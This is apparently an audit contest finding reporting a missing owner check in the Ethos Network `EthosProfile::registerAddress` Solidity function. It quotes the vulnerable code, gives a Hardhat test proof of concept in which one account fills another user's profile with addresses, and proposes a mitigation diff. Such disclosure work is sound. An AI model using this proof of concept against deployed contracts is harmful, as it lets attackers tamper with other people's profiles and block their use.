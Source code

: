 Steep Neon Chinchilla

Medium

# A user can add addresses to the profile of another user using the `EthosProfile::registerAddress` function


## Impact
### Summary 
The `EthosProfile::registerAddress` function allows a user to add new addresses to their profile by first carrying out some checks such as checking that the new address is not registered to another profile.
However, using this same function, a user can add new addresses to a profile of another user which should not be so.

### Vulnerability Details
The vulnerability lies in the fact that the `EthosProfile::registerAddress` function does not check if the profile with `profileId` belongs to the caller. Thus, just any user by merely knowing that a profile with `profileId` exits can add new addresses to the profile of another user. See https://github.com/sherlock-audit/2024-10-ethos-network/blob/main/ethos/packages/contracts/contracts/EthosProfile.sol#L373-L409


```javascript
  function registerAddress(
    address addressStr,
    uint256 profileId,
    uint256 randValue,
    bytes calldata signature
  ) external whenNotPaused onlyNonZeroAddress(addressStr) {
    (bool verified, bool archived, bool mock) = profileStatusById(profileId);
    if (!verified) {
      revert ProfileNotFound(profileId);
    }
    if (archived || mock) {
      revert ProfileAccess(profileId, "Profile is archived");
    }
    // you may restore your own previously deleted address,
    // but you cannot register an address that has been deleted by another user
    if (profileIdByAddress[addressStr] != profileId && isAddressCompromised[addressStr]) {
      revert AddressCompromised(addressStr);
    }
    (bool addressAlreadyRegistered, , , uint256 registeredProfileId) = profileStatusByAddress(
      addressStr
    );
    if (addressAlreadyRegistered && registeredProfileId != profileId) {
      revert ProfileExistsForAddress(addressStr);
    }


    validateAndSaveSignature(
      _keccakForRegisterAddress(addressStr, profileId, randValue),
      signature
    );


    profiles[profileId].addresses.push(addressStr);
    profileIdByAddress[addressStr] = profileId;


    checkMaxAddresses(profileId);


    emit AddressClaim(profileId, addressStr, AddressClaimStatus.Claimed);
  }

```


### Impact
A malicious user can add new addresses to the profile of another user to the extend of exhausting the number of addresses that can be added to the profile. Even if the user who owns the profile removes those addresses, they are still linked to that profile.
Note that since removed addresses counts in checking if a profile has reached its max number of addresses, a user whose profile has been populated with some other addresses by a malicious user cannot add new addresses even after removing the unwanted addresses.

## Proof of Concept

<details>
<summary>PoC</summary>
Place the following code into `EthosProfile.test.ts`.

```javascript
    it.only('user can add address to the profile of another user', async () => {
      const { ethosProfile, PROFILE_CREATOR_0, EXPECTED_SIGNER, OTHER_0, 
        OTHER_1, OWNER} =
        await loadFixture(deployFixture);

      const profileId = String(1);
      let rand = '123';
      let signature = await common.signatureForRegisterAddress(
        OTHER_0.address,
        profileId,
        rand,
        EXPECTED_SIGNER,
      );

      expect((await ethosProfile.addressesForProfile(1)).length).to.equal(1)

      await ethosProfile.connect(OWNER).inviteAddress(PROFILE_CREATOR_0.address);
      await ethosProfile.connect(PROFILE_CREATOR_0).createProfile(1);

      // PROFILE_CREATOR_0 attempts to add an address to the OWNER profile
      assert(await ethosProfile.addressBelongsToProfile(OWNER.address,1)) // assert that OWNER is the owner of profile with id = 1

      await ethosProfile
        .connect(PROFILE_CREATOR_0)
        .registerAddress(OTHER_0.address, profileId, rand, signature);

      expect((await ethosProfile.addressesForProfile(1)).length).to.equal(2)

      // PROFILE_CREATOR_0 attempts to add another address to the OWNER profile
      rand = '456';
      signature = await common.signatureForRegisterAddress(
        OTHER_1.address,
        profileId,
        rand,
        EXPECTED_SIGNER,
      );
      await ethosProfile
        .connect(PROFILE_CREATOR_0)
        .registerAddress(OTHER_1.address, profileId, rand, signature);

      expect((await ethosProfile.addressesForProfile(1)).length).to.equal(3)
      

    });
```

Now run `npx hardhat test`

Output:
```javascript

  EthosProfile
    deleteAddressAtIndex
      ✔ user can add address to the profile of another user (3737ms)


  1 passing (4s)
```

</details>

## Tools Used

Manual Review


## Recommended Mitigation Steps
Consider adding a check to ensure that only the owner of a profile can add new addresses to that profile.

```diff
  function registerAddress(
    address addressStr,
    uint256 profileId,
    uint256 randValue,
    bytes calldata signature
  ) external whenNotPaused onlyNonZeroAddress(addressStr) {
+    if(profileIdByAddress[msg.sender] != profileId){
+        revert();
+    }
    (bool verified, bool archived, bool mock) = profileStatusById(profileId);
    if (!verified) {
      revert ProfileNotFound(profileId);
    }
    if (archived || mock) {
      revert ProfileAccess(profileId, "Profile is archived");
    }
    // you may restore your own previously deleted address,
    // but you cannot register an address that has been deleted by another user
    if (profileIdByAddress[addressStr] != profileId && isAddressCompromised[addressStr]) {
      revert AddressCompromised(addressStr);
    }
    (bool addressAlreadyRegistered, , , uint256 registeredProfileId) = profileStatusByAddress(
      addressStr
    );
    if (addressAlreadyRegistered && registeredProfileId != profileId) {
      revert ProfileExistsForAddress(addressStr);
    }


    validateAndSaveSignature(
      _keccakForRegisterAddress(addressStr, profileId, randValue),
      signature
    );


    profiles[profileId].addresses.push(addressStr);
    profileIdByAddress[addressStr] = profileId;


    checkMaxAddresses(profileId);


    emit AddressClaim(profileId, addressStr, AddressClaimStatus.Claimed);
  }
```
